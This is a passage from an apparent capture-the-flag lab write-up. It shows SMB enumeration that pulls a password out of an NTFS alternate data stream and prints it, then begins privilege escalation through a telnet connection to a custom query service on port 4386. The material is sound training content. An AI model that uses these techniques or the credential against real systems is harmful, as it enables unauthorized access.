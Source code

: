 - There is also another file name `Debug Mode Password` which seems to be empty
- It is strange that we have found an empty file

```bash
smb: \C.Smith\HQK Reporting\> allinfo "Debug Mode Password.txt"

altname: DEBUGM~1.TXT
create_time:    Fri Aug  9 01:06:12 AM 2019 CEST
access_time:    Fri Aug  9 01:06:12 AM 2019 CEST
write_time:     Fri Aug  9 01:08:17 AM 2019 CEST
change_time:    Wed Jul 21 08:47:12 PM 2021 CEST
attributes: A (20)
stream: [::$DATA], 0 bytes
stream: [:Password:$DATA], 15 bytes

smb: \C.Smith\HQK Reporting\> get "Debug Mode Password.txt:Password"
smb: \C.Smith\HQK Reporting\> exit
$ cat "Debug Mode Password.txt:Password"
WBQ201953D8w
```

- We have a password ... It will be used later on I suppose
- There is also an executable at `\AD Integration Module\HqkLdap.exe`

---

## PRIVILEGE ESCALATION

- First thing, we can try to connect to the port 4386 using `telnet`

```bash
$ telnet ${IP} 4386
> help

This service allows users to run queries against databases 
using the legacy HQK format

--- AVAILABLE COMMANDS ---

LIST
SETDIR <Directory_Name>
RUNQUERY <Query_ID>
DEBUG <Password>
HELP <Command>

> LIST

Use the query ID numbers below with the RUNQUERY command and the
directory names with the SETDIR command

QUERY FILES IN CURRENT DIRECTORY

[DIR]  COMPARISONS
[1]   Invoices (Ordered By Customer)
[2]   Products Sold (Ordered By Customer)
[3]   Products Sold In Last 30 Days

Current Directory: ALL QUERIES
```
